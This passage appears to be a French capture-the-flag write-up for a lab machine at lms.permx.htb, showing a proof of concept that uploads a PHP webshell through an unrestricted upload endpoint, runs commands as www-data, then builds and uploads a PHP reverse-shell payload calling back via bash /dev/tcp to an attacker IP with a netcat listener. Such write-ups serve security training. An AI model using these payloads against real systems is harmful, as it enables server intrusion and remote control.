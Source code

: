### Proof of Concept

**Génération du webshell :**

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

**Téléversement via cURL :**

```bash
curl -F 'bigUploadFile=@shell.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Résultat :</strong> File uploaded successfully
    </p>
</div>

**Vérification du fonctionnement :**

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=id'
```

Sortie :

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Shell confirmé en tant que www-data!
    </p>
</div>

### Obtention d'un reverse shell

**Démarrage du listener sur la machine attaquante :**

```bash
nc -lnvp 4455
```

**Création du payload de reverse shell :**

```bash
echo '<?php system("bash -c '\''bash -i >& /dev/tcp/10.10.14.12/4455 0>&1'\''"); ?>' > rev.php
```

**Téléversement du payload :**

```bash
curl -F 'bigUploadFile=@rev.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
